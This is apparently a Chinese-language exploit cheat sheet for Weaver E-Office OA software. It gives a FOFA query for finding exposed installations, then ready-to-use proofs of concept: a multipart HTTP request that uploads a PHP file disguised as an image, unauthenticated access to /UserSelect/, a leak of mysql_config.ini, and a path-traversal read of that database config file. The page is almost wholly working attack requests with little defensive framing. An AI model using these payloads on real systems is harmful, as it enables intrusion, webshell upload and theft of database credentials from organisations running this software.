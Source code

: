 # 泛微OA E-Office 漏洞
## 资产收集
fofa:`app="泛微-EOffice"`
## 任意文件上传
### POC
```h
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>

--e64bdf16c554bbc109cecef6451c26a4--
```
![](/img/E-Office-UploadFile.png)
`/images/logo/logo-eoffice.php`
![](/img/phpinfo.png)
## UserSelect 未授权访问
### POC
`/UserSelect/`
## mysql_config.ini 数据库信息泄漏
### POC
`/mysql_config.ini`
## 任意文件读取漏洞
### POC
`/iweboffice/officeserver.php?OPTION=LOADFILE&FILENAME=../mysql_config.ini`